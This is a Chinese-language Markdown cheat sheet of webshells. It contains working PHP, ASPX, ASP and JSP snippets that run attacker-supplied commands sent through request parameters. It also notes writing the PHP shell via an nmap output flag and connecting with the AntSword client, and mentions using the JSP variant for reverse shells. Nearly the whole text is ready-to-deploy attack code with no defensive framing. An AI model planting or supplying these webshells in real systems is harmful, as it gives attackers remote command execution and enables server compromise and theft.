 ```
<?= @eval($_POST[cmd]); ?> -oG a.phtml
```

然后蚁剑连接

### aspx

```
<% @Page Language="Jscript"%><%eval(Request.Item["cmd"],"unsafe");%>
```

### asp

```
<%eval request("x")%>
```

### jsp

#### 无回显

http://localhost:8003/index.jsp?cmd=whoami

不会回显执行的结果只能在后台打印一个地址，常用来反弹shell

```
 <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
%>

```

#### 有回显

```
  <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
//    System.out.println(process);
    InputStream inputStream = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
    String line;
    while ((line = bufferedReader.readLine()) != null){
      response.getWriter().println(line);
    }
  %>

```

#### 有密码有回显

```
  <%
    if ("password".equals(request.getParameter("pass"))){
      Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
//    System.out.println(process);
      InputStream inputStream = process.getInputStream();
      BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
      String line;
      while ((line = bufferedReader.readLine()) != null){
        response.getWriter().println(line);
      }
    }
  %>

```
